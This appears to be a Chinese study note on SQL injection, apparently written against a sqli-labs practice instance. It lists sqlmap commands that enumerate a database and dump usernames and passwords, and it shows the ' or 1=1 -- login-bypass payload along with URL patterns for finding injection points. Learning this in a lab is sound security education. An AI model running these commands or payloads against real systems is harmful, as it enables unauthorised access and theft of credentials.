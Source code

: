 ```bash
sqlmap -u http://192.168.70.14:8088/Less-1/?id=1 --batch --dbs
sqlmap -u http://192.168.70.14:8088/Less-1/?id=1 --batch -D security --tables
sqlmap -u http://192.168.70.14:8088/Less-1/?id=1 --batch -D security -T users --column
sqlmap -u http://192.168.70.14:8088/Less-1/?id=1 --batch -D security -T users -C id,username,password --dump
```

![image-20240801170629854](../../../../repo/assets/19.SQL注入/image-20240801170629854.png)

![image-20240801170702240](../../../../repo/assets/19.SQL注入/image-20240801170702240.png)

![image-20240803112700602](../../../../repo/assets/19.SQL注入/image-20240803112700602.png)

![image-20240803112758011](../../../../repo/assets/19.SQL注入/image-20240803112758011.png)

## sql注入基础知识

### **SQL注入攻击的根源**

程序命令和用户数据（即用户输入）之间没有做到泾渭分明

#### 注入成功的基础

1. 1、相信用户输入的数据
2. 2、Sql语句的拼接

### **注入之前必须要做三件事情**

- 确定web应用程序所使用的技术
- 确定所有可能的输入方式
- 查找可以用于注入的用户输入

### **万能密码原理解析**

-  大家经常听到网站万能密码登录，
-  输入 `' or 1=1 --` 发现输入任何密码都可以登录成功

### **注入前的准备及注入漏洞检测**

-  捕捉报错信息
-  手工检测SQL注入点

 最常用的SQL注入点判断方法，是在网站中寻找如下形式的网页连接。

> - http:// www.*****. com/ ***.asp?id=x (ASP注入)
> - http:// www.*****. com/ ***.php?id=x (php注入).
> - http:// www.*****. com/ ***.jsp?id=x (jsp注入)
> - http:// www.*****. com/ ***.aspx?id=x (aspx注入)
> - http:// www.*****.com/index/new/id/8 伪静态。
> - http:// www.*****.com/index/new/php-8.html 伪静态

#### 最后修改时间

